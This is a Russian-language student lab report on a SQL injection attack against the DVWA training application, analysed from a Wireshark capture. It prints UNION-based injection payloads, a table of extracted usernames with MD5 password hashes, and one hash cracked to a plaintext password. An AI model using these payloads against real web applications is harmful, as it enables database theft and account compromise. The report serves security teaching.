







# Lab - Attacking a mySQL Database

Лабораторная работа выполнена с использованием **Wireshark** и анализа SQL Injection.

Цель работы — продемонстрировать атаку SQL Injection на веб-приложение, извлечь данные из базы MySQL и взломать хэш пароля.

## 1. Захват трафика

В Wireshark открыт файл `SQL_Lab.pcap`.  
Трафик между клиентом `10.0.2.4` и сервером `10.0.2.15` (порт 80).



## 2. SQL Injection — базовый обход

Запрос:

```sql
1=1
```

Результат: возвращены данные пользователя **admin**.



## 3. Получение имени БД и пользователя

Запрос:

```sql
1' or 1=1 union select database(), user()#
```

Результат:
- Database: `dvwa`
- User: `root@localhost`



## 4. Получение версии MySQL

Запрос:

```sql
1' or 1=1 union select null, version()#
```

Результат: **5.7.12-0ubuntu1.1**



## 5. Перечисление таблиц

Запрос к `information_schema.tables` позволил найти таблицу **users**.



## 6. Извлечение пользователей и хэшей

Запрос:

```sql
1' or 1=1 union select user, password from users#
```

Извлечённые данные (фрагмент):

| User     | Password Hash                      |
|----------|------------------------------------|
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99   |
| gordonb  | e99a18c428cb38d5f260853678922e03   |
| 1337     | 8d3533d75ae2c3966d7e0d4fcc69216b   |
| pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7   |
| smithy   | 5f4dcc3b5aa765d61d8327deb882cf99   |



## 7. Взлом хэша пароля

Хэш `8d3533d75ae2c3966d7e0d4fcc69216b` (MD5) отправлен на [CrackStation](https://crackstation.net/).

**Результат:** пароль = **charley**



## 8. Результат

- ✅ Обнаружена уязвимость SQL Injection
- ✅ Получены имя БД (`dvwa`) и пользователь MySQL
- ✅ Определена версия MySQL (5.7.12)
- ✅ Найдена таблица `users`
- ✅ Извлечены логины и хэши паролей
- ✅ Хэш успешно расшифрован → `charley`

## Полученные навыки

В ходе лабораторной работы были отработаны:

- анализ HTTP-трафика в Wireshark (Follow HTTP Stream)
- эксплуатация SQL Injection (UNION-based)
- перечисление структуры базы данных
- извлечение хэшей паролей
- взлом MD5-хэшей с помощью online-сервисов

## Используемые технологии

```text
Wireshark
SQL Injection
MySQL
MD5
CrackStation
DVWA
```

## Итог

Лабораторная работа показывает полный цикл атаки SQL Injection: от обнаружения уязвимости до извлечения и взлома учётных данных пользователей.
